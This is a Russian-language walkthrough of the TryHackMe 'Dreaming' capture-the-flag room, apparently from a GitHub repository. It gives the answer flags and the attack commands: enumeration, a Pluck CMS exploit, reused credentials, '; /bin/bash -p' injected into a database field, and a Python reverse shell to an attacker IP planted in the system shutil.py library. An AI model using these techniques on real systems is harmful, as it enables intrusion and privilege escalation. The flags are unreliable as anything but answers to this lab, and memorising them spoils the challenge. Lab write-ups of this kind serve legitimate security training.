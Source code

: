 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Dreaming](https://tryhackme.com/r/room/dreaming) 

Всего 1 заданиe:
## Задание 1
Пока король снов находился в заключении, его дом превратился в руины.

Сможете ли вы помочь Песочному человеку восстановить его королевство?

### Ответьте на вопросы ниже
Что такое флаг Люсьена?
```commandline
nmap -sC -sV <IP>
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
# https://www.exploit-db.com/exploits/49909
# http://<IP>/app/pluck-4.7.13/login.php
admin:password
# death, lucien, morpheus
nc -lvnp 1234
cd /opt
ls
password = "HeyLucien#@1999!"
ssh lucien@<IP>
cat lucient_flug.txt
```
```commandline
THM{TH3_L1BR4R14N}
```
Что такое Флаг Смерти?
```commandline
cat .bash_history
mysql -u lucien -plucien42DBPASSWORD
show databases;
show tables;
select * from dreams;
UPDATE dreams SET dream = '; /bin/bash -p' WHERE dreamer = 'Alice';
select * from dreams;
exit
sudo -l
sudo -u death /usr/bin/python3 /home/death/getDreams.py
id
chmod 777 /home/death/getDreams.py
cat getDreams.py
# death:!momentoMORI666!
su death
cat death_flag.txt
```
```commandline
THM{1M_TH3R3_4_TH3M}
```
Что такое Флаг Морфеуса?
```commandline
cat /home/morpheus/restore.py
find / -name shutil.py 2>/dev/null
ls -lai /usr/lib/python3.8/shutil.py

vim /usr/lib/python3.8/shutil.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<attacker IP>",<attacker port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

nc -lnvp 1234
sudo -l
sudo su
```
```commandline
THM{DR34MS_5H4P3_TH3_W0RLD}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)